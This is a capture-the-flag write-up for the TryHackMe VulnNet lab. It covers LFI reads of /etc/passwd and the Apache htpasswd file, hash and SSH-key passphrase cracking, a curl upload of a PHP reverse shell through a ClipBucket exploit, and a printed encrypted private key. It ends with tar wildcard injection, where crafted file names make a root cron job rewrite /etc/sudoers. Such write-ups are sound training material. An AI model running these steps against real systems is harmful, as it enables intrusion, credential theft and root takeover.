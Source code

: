 # 71 - VulnNet (LFI, JS code review, tar \*)

Room Link --> [https://tryhackme.com/room/vulnnet1](https://tryhackme.com/room/vulnnet1)

You will have to add a machine IP with domain: `vulnnet.thm` to your /etc/hosts

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.33.25 -p- -sV -T5

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
```
{% endcode %}

Navigating to the webpage `http://vulnnet.thm` .

<figure><img src=".gitbook/assets/image (464).png" alt=""><figcaption></figcaption></figure>

#### Gobuster Enumeration

{% code overflow="wrap" %}
```bash
gobuster dir -u http://vulnnet.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -b 403 -b 404

/css
/js
/img
/fonts
```
{% endcode %}

#### Subdomain Bruteforce / Discovery

{% code overflow="wrap" %}
```bash
ffuf -u http://vulnnet.thm -c -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H 'Host: FUZZ.vulnnet.thm' -fs 5829

broadcast
```
{% endcode %}

This leads to an authentication page.

[http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

<figure><img src=".gitbook/assets/image (465).png" alt=""><figcaption></figcaption></figure>

But we don't have any credentials.&#x20;

I enumerated the JavaScript files in the JS dir, and found a parameter in the `index__d8338055.js` file:  --> \`[http://vulnnet.thm/index.php?referer=](http://vulnnet.thm/index.php?referer=)\`

<figure><img src=".gitbook/assets/image (466).png" alt=""><figcaption></figcaption></figure>

So i check for LFI and it worked:

[http://vulnnet.thm/index.php?referer=/etc/passwd](http://vulnnet.thm/index.php?referer=/etc/passwd)

<figure><img src=".gitbook/assets/image (467).png" alt=""><figcaption></figcaption></figure>

Back to the [http://broadcast.vulnnet.thm/](http://broadcast.vulnnet.thm/)

The page is using a Basic authentication

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

We can try to view the file that stores credentials for Basic Authentication on Ubuntu Apache, ie the `htpasswd` file. Located at `/etc/apache2/.htpasswd`&#x20;

<figure><img src=".gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Reading the file and we see a credential:

`developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0` .

Cracking with John.

Cracked --> `developers :  9972761drmfsls` .

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Poceed to login to the page. And got a `Clipbucket CMS` .

So Google Exploit for ClipBucket v4.0 exploits, and saw a [FIle Upload Exploit](https://www.exploit-db.com/exploits/44250).

### Initial Access

#### Uploading malicious php file.

Using Curl

{% code overflow="wrap" lineNumbers="true" %}
```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" "http://broadcast.vulnnet.thm/actions/beats_uploader.php" -u developers:9972761drmfsls
creating file{"success":"yes","file_name":"169989120868ca6d","extension":"php","file_directory":"CB_BEATS_UPLOAD_DIR"}
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

We naviigate to [http://broadcast.vulnnet.thm/actions/](http://broadcast.vulnnet.thm/actions/) There is a `CB_BEATS_UPLOAD_DIR`

We execute it and get shell.

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Server-management user

There is a backup folder in the /var dir with some .gz files with Read privs on the, so we can download to kali and untar them.

{% code overflow="wrap" lineNumbers="true" %}
```bash
-rw-rw-r--  1 server-management server-management    1484 Jan 24  2021 ssh-backup.tar.gz
```
{% endcode %}

After untaring the file there is a `id_rsa` file.

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6CE1A97A7DAB4829FE59CC561FB2CCC4

mRFDRL15t7qvaZxJGHDJsewnhp7wESbEGxeAWtCrbeIVJbQIQd8Z8SKzpvTMFLtt
dseqsGtt8HSruVIq++PFpXRrBDG5F4rW5B6VDOVMk1O9J4eHEV0N7es+hZ22o2e9
60qqj7YkSY9jVj5Nqq49uUNUg0G0qnWh8M6r8r83Ov+HuChdeNC5CC2OutNivl7j
dmIaFRFVwmWNJUyVen1FYMaxE+NojcwsHMH8aV2FTiuMUsugOwZcMKhiRPTElojn
tDrlgNMnP6lMkQ6yyJEDNFtn7tTxl7tqdCIgB3aYQZXAfpQbbfJDns9EcZEkEkrp
hs5Li20NbZxrtI6VPq6/zDU1CBdy0pT58eVyNtDfrUPdviyDUhatPACR20BTjqWg
3BYeAznDF0MigX/AqLf8vA2HbnRTYWQSxEnAHmnVIKaNVBdL6jpgmw4RjGzsUctk
jB6kjpnPSesu4lSe6n/f5J0ZbOdEXvDBOpu3scJvMTSd76S4n4VmNgGdbpNlayj5
5uJfikGR5+C0kc6PytjhZrnODRGfbmlqh9oggWpflFUm8HgGOwn6nfiHBNND0pa0
r8EE1mKUEPj3yfjLhW6PcM2OGEHHDQrdLDy3lYRX4NsCRSo24jtgN1+aQceNFXQ7
v8Rrfu5Smbuq3tBjVgIWxolMy+a145SM1Inewx4V4CX1jkk6sp0q9h3D03BYxZjz
n/gMR/cNgYjobbYIEYS9KjZSHTucPANQxhUy5zQKkb61ymsIR8O+7pHTeReelPDq
nv7FA/65Sy3xSUXPn9nhqWq0+EnhLpojcSt6czyX7Za2ZNP/LaFXpHjwYxBgmMkf
oVmLmYrw6pOrLHb7C5G6eR6D/WwRjhPpuhCWWnz+NBDQXIwUzzQvAyHyb7D1+Itn
MesF+L9zuUADGeuFl12dLahapM5ZuKURwnzW9+RwmmJSuT0AnN5OyuJtwfRznjyZ
7f5NP9u6vF0NQHYZI7MWcH7PAQsGTw3xzBmJdIfF71DmG0rqqCR7sB2buhoI4ve3
obvpmg2CvE+rnGS3wxuaEO0mWxVrSYiWdi7LJZvppwRF23AnNYNTeCw4cbvvCBUd
hKvhau01yVW2N/R8B43k5G9qbeNUmIZIltJZaxHnQpJGIbwFSItih49Fyr29nURK
ZJbyJbb4+Hy2ZNN4m/cfPNmCFG+w0A78iVPrkzxdWuTaBOKBstzpvLBA20d4o3ow
wC6j98TlmFUOKn5kJmX1EQAHJmNwERNKFmNwgHqgwYNzIhGRNdyoqJxBrshVjRk9
GSEZHtyGNoBqesyZg8YtsYIFGppZFQmVumGCRlfOGB9wPcAmveC0GNfTygPQlEMS
hoz4mTIvqcCwWibXME2g8M9NfVKs7M0gG5Xb93MLa+QT7TyjEn6bDa01O2+iOXkx
0scKMs4v3YBiYYhTHOkmI5OX0GVrvxKVyCJWY1ldVfu+6LEgsQmUvG9rYwO4+FaW
4cI3x31+qDr1tCJMLuPpfsyrayBB7duj/Y4AcWTWpY+feaHiDU/bQk66SBqW8WOb
d9vxlTg3xoDcLjahDAwtBI4ITvHNPp+hDEqeRWCZlKm4lWyI840IFMTlVqwmxVDq
-----END RSA PRIVATE KEY-----
```

We use `ssh2john` to crack the key password.

`oneTWO3gOyac`

```bash
┌──(dking㉿dking)-[~/Downloads]
└─$ ssh server-management@broadcast.vulnnet.thm -i id_rsa
```

Adnd am logged in.

### Priv Esc to Root

There is a cronjob running as root every 2 minutes.

<figure><img src=".gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

```bash
server-management@vulnnet:/var/opt$ cat backupsrv.sh 
#!/bin/bash

# Where to backup to.
dest="/var/backups"

# What to backup. 
cd /home/server-management/Documents
backup_files="*"

# Create archive filename.
day=$(date +%A)
hostname=$(hostname -s)
archive_file="$hostname-$day.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"
date
echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"
date

# Long listing of files in $dest to check file sizes.
ls -lh $dest

```

Its backingup everything in the Documents dir and saving to /var/backups dir every 2 minutes.

We can exploit the `*` (wildcard) there.

However, to exploit the vulnerability, execute below commands in the **/home/server-management/Documents/**.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># we just add ourself to the /etc/sudoers file.
</strong><strong>echo 'echo "server-management ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > exploit.sh
</strong>echo "" > "--checkpoint-action=exec=sh exploit.sh"
echo "" > --checkpoint=1
</code></pre>

Now, wait 2 minutes, and execute `sudo /bin/bash` and your are **ROOT!**.

Done!

